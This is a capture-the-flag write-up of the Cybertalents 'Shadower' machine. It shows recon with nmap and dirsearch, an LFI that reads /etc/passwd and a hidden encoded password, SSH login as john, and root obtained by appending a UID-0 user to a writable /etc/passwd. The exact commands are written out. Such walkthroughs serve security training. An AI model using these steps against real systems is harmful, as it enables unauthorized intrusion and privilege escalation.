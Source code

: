 ```yaml
---
title: Cybertalents Shadower Machine Writeup
author: Muhammad Adel
date: 2021-06-26 18:45:00 +0200
categories: [Cybertalents Writeups]
tags: [cybertalents, machines, ctf, network exploitation]
---
```


## **Description**


Get The highest privilege on the machine and find the flag!

Target IP: **35.156.4.248**

**Challenge Link:** [https://cybertalents.com/challenges/machines/shadower](https://cybertalents.com/challenges/machines/shadower)

## **User**

### **Nmap**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:24:fc:36:53:c8:0b:f7:8c:31:7a:28:dd:c9:34:02 (RSA)
|   256 6c:6e:61:94:2f:fd:f6:d2:dc:25:e3:4f:32:ac:33:15 (ECDSA)
|_  256 ce:d7:0b:19:cb:32:3b:d4:f1:bf:f7:74:8a:52:d5:bc (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
‌
### **HTTP**

the machine is running a webserver on port 80. it doesn't have sth interesting but we can use *dirsearch* to see hidden directory.

```bash
root@kali:~/dirsearch# python3 dirsearch.py -u 35.156.4.248 -e php

  _|. _ _  _  _  _ _|_    v0.3.9
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 20 | Wordlist size: 6707
Error Log: /home/itsfading/dirsearch/logs/errors-21-06-12_16-24-32.log
Target: 35.156.4.248
Output File: /home/itsfading/dirsearch/reports/35.156.4.248/_21-06-12_16-24-32.txt
[16:24:32] Starting:
[16:24:52] 200 -  827B  - /index.php
[16:24:52] 200 -   11KB - /index.html
[16:24:52] 200 -  827B  - /index.php/login/
```

Navigate to index.php we will find a hint in the page source that says LFI. So we try a simple LFI payload and we found the page is vulnerable. we can extract the */etc/passwd*.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/bash
zerotier-one:x:999:999::/var/lib/zerotier-one:/bin/sh
```
‌
We have now some interesting usernames but still we need to find a password for them. After more enumeration we will find a hint at the contact page in the page source **"<!-my0wns3cr3t.sec -->"**

‌Because we have a LFI Vulnerability we can navigate to it by adding this word in the search:

[http://35.156.4.248/index.php?view=my0wns3cr3t.sec](http://35.156.4.248/index.php?view=my0wns3cr3t.sec)

This will give us a base64 encoded which will be a secret string. now we can decoded it Using a website like **CyberChef** but you will notice that you need to decode it 20 time to get decode value. you can write script for that or to decode it manually.

Finally we will get a password ***"B100dyPa$$w0rd"***


### **SSH**

We have now a password so we can try the usernames that we have to get access to the Machine. we found that John is a valid user


```bash
root@kali:~/CyberTalents/Shadower# ssh john@35.156.4.248
john@ip-172-31-30-167:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

## **Root**

### **Enumeration**

We can run any automating script to search a privilege escalation vector. I will use **linPEAS**.

It leads me to know that I have a permission to write to /etc/passwd.

## **Privilege Escalation**

Simply we will create our own user with root privileges and then we will switch to it.

```bash
john@ip-172-31-30-167:~$ openssl passwd adel
fItrMJ47Bbm3E
john@ip-172-31-30-167:~$ echo 'adel:fItrMJ47Bbm3E:0:0:adel:/home/adel:/bin/bash' >> /etc/pas
john@ip-172-31-30-167:~$ su adel
Password:

root@ip-172-31-30-167:/home/john# ls
linessh.sh  lse.sh
root@ip-172-31-30-167:/home/john# cat /root/root.txt
6199b2f763edfxxxxxxxb275375c100
```
‌
You can see this resource for more information about this privilege Escalation Technique.

[https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)
